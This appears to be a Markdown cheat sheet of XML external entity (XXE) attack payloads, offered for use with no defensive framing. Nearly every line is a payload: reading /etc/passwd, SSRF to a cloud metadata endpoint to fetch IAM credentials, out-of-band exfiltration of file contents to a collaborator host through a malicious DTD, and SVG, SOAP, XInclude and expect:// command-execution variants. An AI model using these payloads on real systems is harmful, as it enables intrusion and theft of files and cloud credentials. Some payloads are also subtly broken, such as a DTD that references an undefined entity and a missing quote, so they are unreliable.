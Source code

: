 # XXE Payloads

  --------------------------------------------------------------------
**Using external entities:**

`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
--------------------------------------------------------------------
**Perform SSRF attacks:**

`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>`
--------------------------------------------------------------------
**Blind XXE with out-of-band interaction:**

`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>`
--------------------------------------------------------------------
**Blind XXE with out-of-band interaction via XML parameter entities:**

`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collaborator> %xxe; ]>`
--------------------------------------------------------------------
**Blind XXE to exfiltrate data using a malicious external DTD**

DTD file:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
```
XXE Payload:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
-------------------------------------------------------------------
**Blind XXE to retrieve data via error messages:**
DTD file:
```
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;
```

XXE Payload:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
-------------------------------------------------------------------
**XInclude to retrieve files:**

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
-------------------------------------------------------------------
**XXE via image file upload:**

`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
--------------------------------------------------------------------
**XXE inside SOAP body:**

`<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>`
-------------------------------------------------------------------
**XXE: Base64 Encoded:**

`<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>`
-------------------------------------------------------------------
**XXE inside SVG:**

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
